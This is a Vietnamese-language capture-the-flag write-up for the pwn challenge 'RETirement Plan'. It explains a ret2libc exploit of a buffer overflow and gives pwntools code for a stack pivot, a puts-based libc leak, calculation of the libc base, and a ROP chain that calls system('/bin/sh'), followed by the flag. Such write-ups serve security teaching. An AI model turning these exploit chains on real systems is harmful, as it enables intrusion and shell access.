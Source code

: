 # RETirement Plan
## Challenge
[chall](../RETirement_Plan)
## Find vulnerabilities
- Đọc qua code ta thấy có 2 lỗ hổng buffer overflow và format string, kết hợp với việc đề bài cho chúng ta libc thì có thể nghĩ đến ret2libc

![alt text](../image/image-9.png)
- Các chế độ bảo vệ đã được tắt

![alt text](../image/image-10.png)
## Exploit
Bước 1: Leak libc address và tính libc_base
- Ta sẽ leak libc của hàm puts và kết hợp stack pivot để đưa stack của chương trình vào vùng nhớ ngoài, vậy mục đích của stack pivot là gì?
Để chúng ta nhảy lại vào hàm main và nhập dữ liệu chiếm shell
- Dùng ROPgadget để lấy pop_rdi bằng câu lệnh sau: `ROPgadget --binary shellcode | grep "pop rdi"`
- Ta thử overflow theo lý thuyết thì xuất hiện lỗi:
```python3
payload = b'a'*64 + p64(rw_section) + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'] + 26)
p.sendlineafter(b'here>: \n', payload)
```

![alt text](../image/image-11.png)
- Sửa lại payload:
```python3
payload = p64(rw_section)*9 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'] + 26)
p.sendlineafter(b'here>: \n', payload)
```
- Chương trình chạy được và leak libc cho chúng ta
```python3
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak, "little")
print("Libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x6f6a0
print("Libc base: " + hex(libc.address))
```

![alt text](../image/image-12.png)

Bước 2: Lấy shell chương trình
- Lúc này ta đã lấy được libc_base và chỉ việc lấy shell thôi
- Trước khi lấy shell thì chúng ta nên lấy ROPgadget pop_rdi của libc cho thuận tiện trong việc khai thác
```python3
pop_rdi = 0x0000000000021112 + libc.address
payload = p64(rw_section)*9 + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendline(payload)
```
## Payload 
[script](solve.py)
## Flag
```utflag{i_should_be_doing_ccdc_rn}```